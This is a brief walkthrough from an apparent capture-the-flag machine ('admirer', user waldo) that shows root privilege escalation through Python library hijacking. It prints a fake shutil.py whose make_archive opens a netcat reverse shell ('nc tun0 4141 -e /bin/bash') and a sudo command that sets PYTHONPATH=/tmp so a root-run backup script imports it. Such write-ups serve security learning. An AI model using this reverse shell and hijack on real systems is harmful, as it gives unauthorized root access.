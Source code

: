 # Root Privesc 

* __Frist__, create dummy `shutil.py` file with reverse shell in it.

	  import os
	  def make_archive(x, y, z):
		  os.system("nc tun0 4141 -e '/bin/bash'")

* __Second__, start netcat listener
* __Third__, run `admin_tasks.sh` script, 

	  waldo@admirer:~$ sudo PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh 6

  * use option 6 to excute `backup.py` script
  * using `PYTHONPATH` to set python path for `backup.py` to import `shutil.py` from my path.